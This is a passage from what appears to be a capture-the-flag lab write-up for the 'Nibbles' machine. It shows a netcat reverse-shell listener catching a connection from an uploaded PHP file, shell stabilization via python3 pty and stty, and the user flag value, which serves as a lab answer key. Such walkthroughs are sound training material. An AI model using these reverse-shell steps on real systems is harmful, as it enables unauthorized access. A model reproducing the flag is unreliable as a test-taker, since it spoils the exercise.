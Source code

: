 We can upload the file to the server and start a listener on our attacking machine. And now if we access the file again we got our shell:
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8081                                                                                                                                    130 ⨯
Listening on 0.0.0.0 8081
Connection received on 10.129.179.77 46308
sh: 0: can't access tty; job control turned off
$ ls -al 
total 16
drwxr-xr-x 2 nibbler nibbler 4096 Oct 25 13:43 .
drwxr-xr-x 7 nibbler nibbler 4096 Dec 10  2017 ..
-rw-r--r-- 1 nibbler nibbler  250 Oct 25 13:43 db.xml
-rw-r--r-- 1 nibbler nibbler   94 Oct 25 13:43 image.php
$ 
```

As first, we can stabilize our shell:
```
$ python --version
sh: 2: python: not found
$ python3 --version
Python 3.5.2
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ ^Z
zsh: suspended  nc -lnvp 8081
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg                                                                                                                           148 ⨯ 1 ⚙
[1]  + continued  nc -lnvp 8081

nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ export TERM=xterm-256color  
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ stty rows 83 columns 155
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ 
```

### Questions
Answer the question(s) below to complete this Section and earn cubes!

Gain a foothold on the target and submit the user.txt flag
```
> 79c03865431abf47b90ef24b9695e148
```

We find the flag in the users home directory:
```
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ ls -al /home
total 12
drwxr-xr-x  3 root    root    4096 Dec 10  2017 .
drwxr-xr-x 23 root    root    4096 May 24  2021 ..
drwxr-xr-x  3 nibbler nibbler 4096 Mar 12  2021 nibbler
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ cd /home/nibbler/
nibbler@Nibbles:/home/nibbler$ ls -al 
total 20
drwxr-xr-x 3 nibbler nibbler 4096 Mar 12  2021 .
drwxr-xr-x 3 root    root    4096 Dec 10  2017 ..
-rw------- 1 nibbler nibbler    0 Dec 29  2017 .bash_history
drwxrwxr-x 2 nibbler nibbler 4096 Dec 10  2017 .nano
-r-------- 1 nibbler nibbler 1855 Dec 10  2017 personal.zip
-r-------- 1 nibbler nibbler   33 Mar 12  2021 user.txt
nibbler@Nibbles:/home/nibbler$ cat user.txt 
79c03865431abf47b90ef24b9695e148
```